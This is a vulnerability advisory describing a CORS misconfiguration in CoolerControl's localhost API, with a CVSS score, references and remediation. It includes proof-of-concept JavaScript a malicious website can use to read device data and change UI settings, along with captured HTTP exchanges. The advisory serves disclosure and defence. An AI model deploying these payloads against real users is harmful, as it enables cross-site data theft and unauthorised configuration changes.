

## Description

A default installation of **CoolerControl** creates a web UI/API service on the interface `localhost:11987`. While browsing the internet, any website can try to send requests to the "internal" service. With JavaScript, a website can make (some) browsers ask the localhost service if it's OK to load resources to be shared to the website as well. If the localhost service answers NO, the browser denies the website from reading any of the data. This is called a [Cross-Origin Resource Sharing (CORS)](https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS) policy, and in **CoolerControl** API it is misconfigured, allowing any website to share its resources. The vulnerability allows attackers to read potentially sensitive data, e.g. daemon logs or hardware information, by having the target user browse to a malicious website. Additionally, because of unauthenticated functionality, attackers can change settings within the UI, potentially guiding the user to dangerous actions.

## Severity

Medium

## CVSS

[CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:N)

## Steps to reproduce

Assumes a default `coolercontrold` installation.

Assumes Firefox is used as a browser. Currently [Brave seems to be the only browser almost completely protecting against localhost abuse by default](https://brave.com/privacy-updates/27-localhost-permission/).

[Chrome does have some protection](https://developer.chrome.com/blog/local-network-access), which mitigates the issue of localhost CORS exploits. However, not all users might have the protections enabled.

Testing of Local Network Access protections in your browser can be done e.g. [here](https://lna-testing.notyetsecure.com/).

Consider a website `https://malicious.website/` having the following JavaScript:

```javascript
<script>
async function getData() {
  const url = "http://localhost:11987/devices";
  const response = await fetch(url);
  const result = await response.json();
  console.log(result);
  alert(JSON.stringify(result));
}
getData();
</script>
```

By browsing to the website, the user's browser makes the following request. Note the `Origin` header:

```http
GET /devices HTTP/1.1
Host: localhost:11987
sec-ch-ua-platform: "Linux"
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
sec-ch-ua: "Chromium";v="143", "Not A(Brand";v="24"
sec-ch-ua-mobile: ?0
Accept: */*
Origin: https://malicious.website
Sec-Fetch-Site: cross-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive

```

To which the **CoolerControl** API responds to:

```http
HTTP/1.1 200 OK
content-type: application/json
vary: accept-encoding
vary: origin, access-control-request-method, access-control-request-headers
access-control-allow-credentials: true
access-control-allow-origin: https://malicious.website
date: Wed, 28 Jan 2026 20:49:06 GMT
Content-Length: 501

{"devices":[...SHORTENED...]}
```

Note the `vary`, `access-control-allow-credentials`, and `access-control-allow-origin` headers in the response.

The effect is very visible when the `alert()` is called, showing that the `https://malicious.website/` has access to the **CoolerControl** data:



Furthermore, the malicious website could also have the following JavaScript:

```javascript
<script>
fetch('http://localhost:11987/settings/ui', {
  method: 'PUT',
  headers: {
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({
    'json':'payload'})
});
</script>

```

This results in a [pre-flight OPTIONS](https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request) request from the user's browser, to which CoolerControl responds with:

```http
HTTP/1.1 200 OK
access-control-allow-credentials: true
vary: origin, access-control-request-method, access-control-request-headers
access-control-allow-methods: PUT
access-control-allow-headers: content-type
access-control-max-age: 300
access-control-allow-origin: https://malicious.website
allow: GET,HEAD,PUT
content-length: 0
date: Sun, 01 Feb 2026 17:26:19 GMT
```

Resulting in the browser allowing the cross-origin PUT request to go through. Since the endpoint `PUT /settings/ui` does not require authentication, an attacker can arbitrarily modify the user's UI settings.

## Code reference

https://gitlab.com/coolercontrol/coolercontrol/-/blob/560a0e068d1a4c746c28e2f24fadf4603f905e49/coolercontrold/src/api/mod.rs#L501

## External references

https://developer.mozilla.org/en-US/docs/Web/HTTP/Guides/CORS

https://developer.mozilla.org/en-US/docs/Glossary/Preflight_request

https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/07-Testing_Cross_Origin_Resource_Sharing

https://brave.com/privacy-updates/27-localhost-permission/

https://developer.chrome.com/blog/local-network-access

https://lna-testing.notyetsecure.com/

## Suggested remediation steps

- Do not allow requests from origins other than localhost
- Require authentication for all endpoints
